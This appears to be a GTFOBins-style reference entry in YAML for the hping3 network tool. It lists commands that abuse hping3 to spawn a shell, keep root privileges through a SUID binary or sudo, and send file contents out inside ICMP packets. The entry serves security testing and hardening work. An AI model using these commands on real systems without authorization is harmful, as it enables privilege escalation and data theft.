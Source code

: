 ```yaml
---
functions:
  shell:
    - code: |
        hping3
        /bin/sh
  suid:
    - code: |
        ./hping3
        /bin/sh -p
  file-read:
    - description: It is possible to send specific file contents if hping3 has sufficient permission.
    - code: |
        sudo hping3 --icmp 127.0.0.1 --listen --signature --safe
        sudo hping3 --icmp 127.0.0.1 --d 100 --c 2 --sign signature --file ./file.txt
  sudo:
    - code: |
        sudo hping3
        /bin/sh
---
```

